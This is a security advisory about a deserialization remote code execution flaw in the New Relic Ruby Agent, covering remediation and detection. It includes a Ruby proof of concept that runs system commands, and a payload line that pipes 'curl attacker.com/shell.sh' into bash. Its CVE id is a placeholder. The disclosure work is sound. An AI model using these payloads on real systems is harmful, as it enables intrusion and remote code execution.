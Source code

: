 ```yaml
---
title: "Remote Code Execution in New Relic Ruby Agent"
description: "A critical remote code execution vulnerability in New Relic Ruby Agent's JSON marshaller that allows attackers to execute arbitrary code through unsafe deserialization of untrusted data."
publishDate: 2025-04-18
cveId: "CVE-2024-XXXXX"
vendor: "New Relic"
affectedProduct: "newrelic-ruby-agent < 8.17.0"
severity: "Critical"
patchStatus: "Patched"
patchDate: 2025-06-05
discoveryDate: 2025-04-18
---
```


# Remote Code Execution in New Relic Ruby Agent

## Summary

A critical remote code execution vulnerability was discovered in New Relic Ruby Agent's JSON marshaller component. The vulnerability allows attackers to execute arbitrary code by exploiting unsafe deserialization of untrusted data through the agent's metrics collection system.

## Vulnerability Details

The vulnerability exists in the JSON marshaller component (`lib/new_relic/agent/new_relic_service/json_marshaller.rb`) which uses Ruby's `JSON.load` method to deserialize data. This method is known to be unsafe as it can instantiate arbitrary Ruby objects, potentially leading to remote code execution.

### Technical Details

The vulnerable code in the JSON marshaller:

```ruby
# lib/new_relic/agent/new_relic_service/json_marshaller.rb
def load(data)
  JSON.load(data)  # Unsafe deserialization
end
```

The `JSON.load` method accepts a special `json_class` attribute that allows instantiation of arbitrary Ruby objects. This can be exploited by crafting malicious JSON payloads that trigger code execution through Ruby's object instantiation mechanisms.

## Impact

Successful exploitation allows attackers to:

1. Execute arbitrary code with the privileges of the Ruby application
2. Access sensitive application data
3. Pivot to other systems in the network
4. Establish persistent access to compromised systems

The vulnerability has received a CVSS 3.1 Base Score of 9.8 (Critical) due to:
- Network attack vector
- No authentication required
- No user interaction needed
- Complete system compromise possible

## Proof of Concept

### Video Demonstration

<div class="video-container">
  <video 
    width="100%" 
    height="100%" 
    controls 
    autoplay 
    muted
    style="position: absolute; top: 0; left: 0; width: 100%; height: 100%;"
  >
    <source src="/videos/newrelic-ruby.mp4" type="video/mp4">
    Your browser does not support the video tag.
  </video>
</div>

<style>
.video-container {
  position: relative;
  padding-bottom: 56.25%; /* 16:9 Aspect Ratio */
  height: 0;
  overflow: hidden;
  margin: 2rem 0;
  border-radius: 8px;
  box-shadow: 0 4px 6px -1px rgba(0, 0, 0, 0.1), 0 2px 4px -1px rgba(0, 0, 0, 0.06);
}
</style>

### Code Example

The following proof of concept demonstrates the vulnerability:

```ruby
require 'json'

# Malicious class for demonstration
class EvilClass
  def initialize(cmd)
    @cmd = cmd
  end
  
  def to_json(*args)
    { "json_class" => self.class.name }.to_json(*args)
  end
  
  def self.json_create(o)
    system(o["@cmd"])
  end
end

# Create malicious payload
payload = EvilClass.new("id > /tmp/pwned").to_json

# When this JSON is processed by the vulnerable agent:
require 'new_relic/agent/new_relic_service/json_marshaller'
marshaller = NewRelic::Agent::NewRelicService::JsonMarshaller.new
marshaller.load(payload)  # Triggers command execution
```

## Exploitation Chain

1. **Initial Access**:
   ```ruby
   # Craft malicious metrics payload
   {
     "metric_data": {
       "metrics": [{
         "name": "Custom/Exploit",
         "value": {
           "json_class": "EvilClass",
           "@cmd": "curl attacker.com/shell.sh | bash"
         }
       }]
     }
   }
   ```

2. **Execution Flow**:
   ```mermaid
   graph TD
     A[Attacker] -->|Send Malicious Metrics| B[New Relic Agent]
     B -->|Process Metrics| C[JSON.load]
     C -->|Instantiate Object| D[Object Creation]
     D -->|Execute Payload| E[System Compromise]
   ```

3. **Command Execution**:
   - Agent deserializes JSON payload
   - Ruby creates instance of attacker-controlled class
   - Malicious methods execute during object initialization
   - Attacker gains code execution

## Remediation

New Relic has addressed this vulnerability in version 8.17.0 by:

1. Replacing `JSON.load` with `JSON.parse`:
   ```ruby
   def load(data)
     JSON.parse(data)  # Safe deserialization
   end
   ```

2. Adding input validation for metric data
3. Implementing strict type checking
4. Removing support for arbitrary object deserialization

Users should upgrade to version 8.17.0 or later immediately.

## Timeline

- **2025-04-18**: Initial vulnerability report sent to New Relic security team
- **2025-05-18**: Patch submitted via Pull Request #3183
- **2025-05-20**: Staff response and vulnerability confirmation
- **2025-05-20**: Vulnerability patch approved
- **2025-06-05**: Patch released in version 8.17.0

## Detection

Security teams can detect exploitation attempts by monitoring for:

1. Suspicious Ruby object instantiation in agent logs
2. Unexpected network connections from Ruby processes
3. Anomalous system command execution
4. Unusual metric data patterns in New Relic collectors

Example log analysis:
```bash
# Search for potential exploitation attempts
grep -r "json_class" /var/log/newrelic/
```

## Mitigation

Until patching is possible:

1. Monitor agent processes for unusual behavior
2. Implement network segmentation for collector traffic
3. Use application firewalls to filter malicious JSON
4. Consider temporarily disabling the Ruby agent if risk is high

## References

1. [Pull Request #3183](https://github.com/newrelic/newrelic-ruby-agent/pull/3183)
2. [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
3. [Ruby JSON Documentation](https://ruby-doc.org/stdlib-2.7.0/libdoc/json/rdoc/JSON.html#method-i-load)
4. [OWASP Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

## Acknowledgements

This vulnerability was discovered and reported by @odaysec security research team. Special thanks to:
- New Relic Security Team for quick response
- Ruby Security Team for guidance
- Open Source Security Community